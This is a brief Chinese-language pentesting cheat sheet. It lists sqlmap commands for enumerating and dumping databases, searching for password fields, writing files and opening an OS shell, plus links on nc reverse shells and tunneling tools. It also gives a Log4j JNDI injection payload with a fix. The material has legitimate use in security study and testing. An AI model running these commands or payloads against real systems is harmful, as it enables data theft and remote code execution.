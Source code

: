 - 设置cookie

  `sqlmap -u http:/xxxxxx.xxx --cookie="JSESSION=asd"`

- 查询数据库

  `sqlmap -u http:/xxxxxx.xxx --dbs`

- 查询表

  `sqlmap -u http:/xxxxxx.xxx -D 数据库名 --tables`

- 查字段名

  `sqlmap -u http:/xxxxxx.xxx -D 数据库名 -T 表名 --columns`

- 爆数据

  `sqlmap -u http:/xxxxxx.xxx -D 数据库名 -T 表名 -C "字段名1，字段名2"--dump`

- 在数据库中搜索字段 / 表 / 数据库名

  `sqlmap -u http:/xxxxxx.xxx --search -C/T/D admin,password`

- 写入文件
  `sqlmap -u http://xxx.xxx -–file-dest "要写入的文件在本地的路径" –file-write "目标路径"`

- 调用shell

  `sqlmap -u http://xxx.xxx --os-shell`

#### 端口代理

[二、nc 反弹](https://blog.csdn.net/whatday/article/details/105407387#t1)

[四、frp 内网穿透利器](https://blog.csdn.net/whatday/article/details/105407387#t3)

[五、ngrok 内网穿透](https://blog.csdn.net/whatday/article/details/105407387#t4)

#### Log4j

log4j 是 javaweb 的日志组件，用来记录 web 日志

去指定下载文件的 url 在搜索框或者搜索的 url 里面，加上 ${jndi:ldap://127.0.0.1/test} ，log4j 会对这串代码进行表达式解析，给 lookup 传递一个恶意的参数指定，参数指的是比如 ldap 不存在的资源 $ 是会被直接执行的。后面再去指定下载文件的 url，去下载我们的恶意文件。比如是 x.class 下载完成后，并且会执行代码块

修复：升级 Log4j 到最新版本，根据业务判断是否关闭 lookup

#### 修改ip地址

```bash
# vi /etc/sysconfig/network-scripts/ifcfg-eth0 
```

